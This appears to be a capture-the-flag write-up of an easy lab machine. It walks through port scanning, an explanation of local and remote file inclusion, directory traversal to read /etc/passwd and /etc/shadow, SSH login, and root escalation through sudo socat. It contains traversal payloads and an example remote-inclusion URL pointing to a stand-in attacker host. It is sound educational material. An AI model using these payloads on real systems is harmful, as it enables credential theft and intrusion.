


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|    Easy    |  |  10.10.16.93  |  |

---

Let's start off by running a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration enabled. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**



As we can see, there are two services running on the target machine: **SSH (22)** and **HTTP (80)**.

Let's first check out the HTTP webserver. We are brought to this webpage:


Looks like we have a simple blog.

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can enumerate any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common file extensions in our enumeration, such as .php and .js.

While the scan is going on, let's explore the website. 

Firstly, I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried searching for low-hanging fruit such as visiting the /robots.txt file, but those did not result in anything of use.

At the bottom of the web page, there were three sections dedicated to different blog posts. Looks like the posts taught us more about **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** attacks! This will be useful as I currently have no idea what those attacks are. 

Clicking on the 'View Details' button below the sections brought me to the blog posts. I checked the source code for each of these dedicated posts but there was nothing of interest.

Alright, time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. 

Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input 'module' and the value to be the file 'contact.php'. Of course, it would seem that contact.php is in the same directory as the calling file and hence, the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file on the filesystem, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local /etc/shadow file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a PHP script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded:

```
https://example.com/?module=../../../uploads/malicious.php
```

The web server will then execute the script.

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a URL to another web server (controlled by the attacker) to execute malicious code that is hosted on that webserver. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. 

First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:


Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practice file inclusion, which means that I could attempt to mount an attack there!


It seemed that the web server was taking in an input 'name' and the filename that produced the wall of text shown on the page was called 'hacking'.

I'll try to change 'hacking' to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.


The attack worked! The contents of the /etc/passwd file is displayed by the web server. 

Next, I'll try if I can read the /etc/shadow file. If I can do so, I'll be able to obtain the credentials of users on the machine.


Sure enough, I could read the /etc/shadow file. From the file, I saw that that there was a user account called **falconfeast**. His hashed password was also exposed. 

At this stage, I wanted to use `john` to crack this password. However, looking more closely at the file, I noticed a comment:


On the right, we can see the text: 

> #falconfeast:rootpassword 

Could 'rootpassword' be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:


Nice, that was his password after all! 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his home directory.

---

Now let's escalate our privileges. 

Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration. 

Firstly, I ran the command `sudo -l` to see what sudo privileges that falconfeast had:


Looks like he can run `socat` as root! Next, I went to [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) to see if there were any vulnerabilities that I could exploit with this binary.

I managed to find a method using `socat` to spawn a shell as root:



After running the command above, I managed to spawn a root shell:


With that, I can easily navigate towards /root and obtain **root.txt**.

